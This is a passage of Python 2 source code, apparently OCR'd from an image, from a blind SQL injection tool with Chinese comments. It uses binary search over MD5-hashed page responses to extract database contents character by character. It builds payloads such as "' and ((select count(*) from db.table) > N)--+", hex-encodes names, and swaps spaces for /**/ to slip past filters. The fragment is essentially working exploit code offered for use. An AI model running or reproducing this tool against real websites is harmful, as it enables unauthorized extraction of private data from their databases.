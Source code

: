                 if standard_md5 == mid_md5_html:
                    low = mid + 1
                else:
                    high = mid-1

                str_ascii = (low+high+1)/2
            column_name_one_str = chr(str_ascii)
            sys.stdout.write(column_name_one_str)
            sys.stdout.flush()
        print

def getAllcontent(url,column_name,table_name,db_name):
    # print "getAllcontent"
    #while循环结束后得到结果的行数
    #for循环，一次得到一行的值
        #while循环得到每个字段的长度
        #for循环，一次得出一个字段的一个字符
    # print url
    # print column_name
    # print table_name
    # print db_name
    column_name = column_name.split(',')
    len_column_name = len(column_name)
    # print "len_column_name:%d" % len_column_name
    standard_md5 = get_md5_html(url)
    table_name_hex = "0x" + binascii.b2a_hex(table_name)
    db_name_hex = "0x" + binascii.b2a_hex(db_name)
    # print standard_md5

    low = 1
    high = 10000
    while low <= high:  #循环结束后得到列个数
        mid = (low + high)/2;

        payload = "' and ((select count(*) from %s.%s) > %d)--+" % (db_name,table_name,mid)
        # print payload
        payload = "/**/".join(payload.split())
        mid_url = url + payload
        mid_md5_html = get_md5_html(mid_url)
